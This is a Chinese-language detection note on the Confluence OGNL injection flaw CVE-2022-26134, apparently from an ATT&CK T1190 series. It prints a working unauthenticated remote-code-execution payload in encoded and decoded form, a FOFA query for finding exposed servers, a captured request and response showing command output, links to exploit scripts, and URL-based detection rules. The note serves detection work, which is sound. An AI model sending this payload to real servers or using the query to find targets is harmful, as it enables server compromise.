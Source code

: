 # T1190-CVE-2022-26134-Confluence OGNL表达式注入命令执行漏洞

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 测试案例

### 简介

Confluence是一个专业的企业知识管理与协同软件，也可以用于构建企业wiki。使用简单，但它强大的编辑和站点管理特征能够帮助团队成员之间共享信息、文档协作、集体讨论，信息推送。

Confluence Server and Data Center存在一个远程代码执行漏洞，未经身份验证的攻击者可以利用该漏洞向目标服务器注入恶意ONGL表达式，进而在目标服务器上执行任意代码。

### 受影响版本

```yml
Confluence Server and Data Center >= 1.3.0
Confluence Server and Data Center < 7.4.17
Confluence Server and Data Center < 7.13.7
Confluence Server and Data Center < 7.14.3
Confluence Server and Data Center < 7.15.2
Confluence Server and Data Center < 7.16.4
Confluence Server and Data Center < 7.17.4
Confluence Server and Data Center < 7.18.1
```

### EXP/POC

请勿用做非法用途，仅用于检测测试。

fofa语法：icon_hash="-305179312"

```yml
/%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/
```

URL decode

```yml
/${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("' command '").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}/
```

<https://github.com/Nwqda/CVE-2022-26134/blob/master/cve-2022-26134.py>

<https://github.com/crowsec-edtech/CVE-2022-26134/blob/main/exploit.py>

## 检测日志

HTTP.log

## 测试复现

参考测试留痕内容。

## 测试留痕

```yml
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: x.x.x.x:81
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: keep-alive

HTTP/1.1 302 
Cache-Control: no-store
Expires: Thu, 01 Jan 1970 00:00:00 GMT
X-Confluence-Request-Time: 1654694968696
Set-Cookie: JSESSIONID=D7258B0DCEE36AE8056A8853FDCE6E69; Path=/; HttpOnly
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Security-Policy: frame-ancestors 'self'
X-Cmd-Response: uid=2002(confluence) gid=2002(confluence) groups=2002(confluence) 
Location: /login.action?os_destination=%2F%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D%2Findex.action&permissionViolation=true
Content-Type: text/html;charset=UTF-8
Content-Length: 0
Date: Wed, 08 Jun 2022 13:29:28 GMT
Keep-Alive: timeout=20
Connection: keep-alive
```

## 检测规则/思路

参考[splunk官方建议](https://www.splunk.com/en_us/blog/security/atlassian-confluence-vulnerability-cve-2022-26134.html)

对url中包含"%24%7B"或者"/${*"进行重点监测。可结合"java.lang.Runtime%40getRuntime%28%29.exec"进行辅助研判。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

atlassian-confluence-vulnerability-cve-2022-26134

<https://www.splunk.com/en_us/blog/security/atlassian-confluence-vulnerability-cve-2022-26134.html>

CVE -2022-26134漏洞复现(Confluence OGNL 注入rce漏洞)

<https://blog.csdn.net/qq_17754023/article/details/125125221>
